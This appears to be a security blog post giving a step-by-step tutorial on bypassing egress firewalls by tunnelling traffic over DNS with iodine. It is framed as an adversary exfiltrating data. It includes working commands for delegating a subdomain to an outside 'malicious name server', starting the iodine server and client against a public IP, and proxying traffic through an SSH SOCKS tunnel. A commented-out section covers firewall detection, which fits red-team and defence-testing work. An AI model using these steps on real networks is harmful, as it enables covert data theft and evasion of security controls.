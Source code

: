 ```yaml
---
layout: post
title:  "Application Firewall Bypass over DNS (iodine)"
date:   2020-08-03 10:43:25 -0400
categories: exfiltration 
tags: gateway bypass
---
```

<p>
Sometimes the adversary is behind a security stack and needs to bypass that stack for one reason or another. Also once an environment has been compromised and the adversary finds some desirable data, the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be). 
</p>


<p>
Often times DNS to any name server is still permitted. This is typically because of lack of awareness, and fear that without DNS the entire environment feels down to the users. In many networks with captive portals (airports, hotels, etc) DNS is permitted prior to signing in. This means that if you could make the requests actually look like DNS you should be able to bypass other controls.
</p>

<p>
Iodine is a pretty old, yet stable, tool that allows you to tunnel traffic inside DNS requests. I've found that the client and server run very easily on linux, and much less so on Mac and Windows so be prepared for that. The documentation can be found here, https://code.kryo.se/iodine/. I find it somewhat convoluted so decided to write my own post on how to use it here.
</p>

<p>
You will require a publicly accessible domain under your control and another system on the outside of the security stack.
</p>


<h3>Step 1 - Configure the Domain</h3>

<p>
This needs to be done before you get stuck behind a security stack. So before you get there make sure to have a stable host online that also permits port 53 ingress. You also need to setup a subdomain on a domain you control. I've stuck with the naming from the Iodine documentation to make it more relatable.
</p>

<p>
The following screenshot from Cloudflare Dash shows that an A record has been created for my malicious name server, currently at 35.196.116.250. This is the host we will run Iodine on. From there an entire subdomain has been delegated to that malicious name server, t1.ninjastars.cf.
</p>

<img src="/images/iodone-dnsconfig.png">

<p>
You can verify the DNS is pointing in the correct direction with <code>dig ns t1.ninjastars.cf +trace</code>. In this case you can see that the NS is delegated to <code>t1ns.ninjastars.cf</code>.
</p>

<pre>t1.ninjastars.cf.	7200	IN	NS	t1ns.ninjastars.cf.</pre>

<h3>Step 2 - Start the Server</h3>

<p>
From the server that will run iodine (in this case 35.196.116.250/t1ns.ninjastars.cf) start the iodine server. The address 10.0.0.1 is used as a point to point interface with your client, so this must be in a different subnet as the client and server. <b>Make sure you are using iodined on the server!</b>
</p>
<br>
<code>
iodined -f 10.0.0.1 -P boom t1.example.com
</code>

<p>
If all went well you should see something like this.
</p>

<pre>
root@sperciballi-iodine:/home/stephen# iodined -f 10.0.0.1 -P boom   t1.ninjastars.cf
Opened dns0
Setting IP of dns0 to 10.0.0.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain t1.ninjastars.cf
</pre>


<h3>Step 3 - Start the Client</h3>

<p>
From the client system behind the security stack start iodine to connect to the iodine server.
</p>
<br>
<code>
iodine -f 35.196.116.250 -P boom t1.ninjastars.cf
</code>

<p>
You should see messages that look like the following, indicating that the tunnel interface has been brought up.
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# iodine -f 35.196.116.250 -r -P boom t1.ninjastars.cf
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for t1.ninjastars.cf to 35.196.116.250
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.0.0.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.0.0.1
Skipping raw mode
Using EDNS0 extension
Switching upstream to codec Base128
Server switched upstream to codec Base128
No alternative downstream codec available, using default (Raw)
Switching to lazy mode for low-latency
Server switched to lazy mode
Autoprobing max downstream fragment size... (skip with -m fragsize)
768 ok.. ...1152 not ok.. 960 ok.. 1056 ok.. 1104 ok.. 1128 ok.. 1140 ok.. will use 1140-2=1138
Setting downstream fragment size to max 1138...
Connection setup complete, transmitting data.
</pre>
<p>
At this point you should be able to ping the server side tunnel IP (10.0.0.1) from the client side of the tunnel.
</p>


<h3>Step 4 - Use the Tunnel</h3>

<p>
With this current point to point tunnel established over DNS you would now want to proxy your client traffic over the tunnel. This could be accomplished by configuring a web proxy at the server side, or more securely an SSH tunnel which is demonstrated below.
</p>

<p>
From the client side of the tunnel we will be SSH'ing into our Iodine server, however as part of that session will open up a local port 8081 that will be used as a SOCKS5 proxy. Note that the IP 10.0.0.1 is the server side of the tunnel.
<p>

<pre>
ssh -i ./google_compute_engine -C -D 8081 stephen@10.0.0.1
</pre>

<p>
With your proxy server started on the client device, a simple use case is to configure your browser connection settings to use a SOCKS5 proxy and using localhost:8081.
</p>

<p>
Search the web for what's my IP and you will see that it is now the public IP of the Iodine server.
</p>

<img src="/images/iodine-ip.png">

<!--
<h3>Step 5 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW permitted the session. That being said there were three opportunities so far that it could have prevented this traffic; The application was identified as tcp-over-dns where all you would want is DNS at most, then there were two spyware signatures identified as "Yourfreedom Command and Control" and "Iodine DNS Tunnel Tool Command and Control".
</p>
<br>
<br>
<img src="/images/appid-evasion-iodinengfw.png" alt="ngfw">

-->

